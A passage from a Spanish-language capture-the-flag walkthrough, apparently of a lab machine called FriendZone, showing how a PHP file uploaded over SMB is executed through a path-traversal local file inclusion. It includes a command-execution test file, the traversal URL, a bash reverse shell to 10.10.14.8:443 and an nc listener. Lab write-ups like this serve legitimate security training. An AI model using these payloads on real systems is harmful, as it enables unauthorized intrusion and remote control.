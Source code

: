 ```bash
 /etc/Files 
```
. Esto no hace pensar que si subimos ficheros al registro 
```bash
 Development 
```
, puede que sea finalmente bindeada al directorio 

```bash
 /etc/Development 
```
. 

1. Creamos un fichero php de prueba

    ```php
    <?php
        echo "Esto es una prueba...";
        system("whoami");
    ?>
    ```

1. Con smbclient, subimos el fichero

    ```bash
    put test.php
    ```

1. En el dashboard, intentamos ver si vemos la pagina

    ```bash
    https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=/../../../../../etc/Development/test
    ```

Esto nos muestra que podemos ejecutar commandos a nivel de systema.## Vuln exploit & Gaining Access {-}

### Ganando accesso con un un LFI {-}

1. Creamos un fichero reverse.php

    ```php
    <?php
        system("bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'");
    ?>
    ```

1. Con smbclient, subimos el fichero

    ```bash
    put reverse.php
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```
